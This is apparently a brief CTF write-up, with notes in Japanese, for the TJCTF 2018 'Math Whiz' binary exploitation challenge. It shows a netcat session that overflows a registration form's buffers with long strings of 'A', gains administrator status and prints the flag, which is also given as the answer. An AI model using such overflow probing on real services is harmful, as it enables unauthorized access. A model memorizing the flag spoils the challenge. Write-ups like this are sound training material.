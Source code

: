 # 6 Math Whiz[Binary Exploitation]
```
The neighborhood math whiz won't stop bragging about the registration form (source) he coded. Show him who's boss!

nc problem1.tjctf.org 8001
```
- registration form(..._register)
- source(..._register.c)
- `tjctf{d4n63r0u5_buff3r_0v3rfl0w5}`->AC
- インプットがあるときは、とりあえずOverflow,FSAを疑う
```
kaito@kaito-ThinkPad-X240:~/projects/ctf/tjctf2018/Math_Whiz$nc problem1.tjctf.org 8001
******************** Please Register Below ********************
Full Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Recovery Pin: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Email: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Address: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Biography: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Successfully registered 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' as an administrator account!
Here is your flag: tjctf{d4n63r0u5_buff3r_0v3rfl0w5}
timeout: the monitored command dumped core
```
- むっちゃでかい入力入れたらフラグを吐いた
